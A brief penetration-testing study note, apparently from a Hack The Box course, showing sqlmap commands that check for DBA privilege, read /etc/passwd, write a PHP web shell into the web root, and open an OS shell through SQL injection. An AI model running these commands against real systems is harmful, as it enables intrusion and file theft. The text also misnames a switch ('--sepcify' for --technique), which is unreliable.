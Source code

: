 ```yaml
---
title: d-OS Exploitation
draft: false
tags:
---
```



## File Read

To read files, DB user must have the privilege to `LOAD DATA` and `INSERT`.

Most likely, we will need DBA to read data.

To check for DBA privilege, we use `--is-dba` switch:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba

...SNIP...
current user is DBA: True

[*] ending @ 17:31:56 /2020-11-19
```

We can read files using `--file-read` option:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

## File Write

Most of the time, we won't be able to write a file.

We need DBA's to be able to write files.

We can write files as such:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

## OS Command Execution


```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell
```

If we know the type of SQL injection we can specify using `--sepcify` switch:


```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

